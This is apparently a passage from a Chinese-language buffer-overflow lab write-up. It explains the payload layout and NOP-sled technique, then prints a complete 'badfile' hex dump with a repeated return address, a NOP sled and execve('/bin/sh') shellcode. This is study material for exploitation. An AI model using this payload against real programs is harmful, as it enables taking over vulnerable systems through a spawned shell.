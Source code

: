 **payload :** padding1 + address of shellcode + padding2 + shellcode



> padding1 处的数据可以随意填充（注意如果利用字符串程序输入溢出数据不要包含“\x00” ，否则向程序传入溢出数据时会造成截断），长度应该刚好覆盖函数的基地址。address of shellcode 是后面 shellcode 起始处的地址，用来覆盖返回地址。padding2 处的数据也可以随意填充，长度可以任意。shellcode 应该为十六进制的机器码格式。
>
> 只能得到大致但不确切的 shellcode 起始地址，解决办法是在 padding2 里填充若干长度的“\x90”。这个机器码对应的指令是 NOP (No Operation)，也就是告诉 CPU 什么也不做，然后跳到下一条指令。有了这一段 NOP 的填充，只要返回地址能够命中这一段中的任意位置，都可以无副作用地跳转到 shellcode 的起始处，所以这种方法被称为 NOP Sled（中文含义是“滑雪橇”）。这样我们就可以通过增加 NOP 填充来配合试验 shellcode 起始地址。
>





## 二、exploit 与 badfile

### badfile 文件内容



```asm
00000000: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000010: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000020: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000030: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000040: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000050: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000060: c7ca ffff 9090 9090 9090 9090 9090 9090  ................
00000070: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000080: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001e0: 9090 9090 9090 9090 9090 9031 c050 682f  ...........1.Ph/
000001f0: 2f73 6868 2f62 696e 89e3 5053 89e1 99b0  /shh/bin..PS....
00000200: 0bcd 8000 00          
```
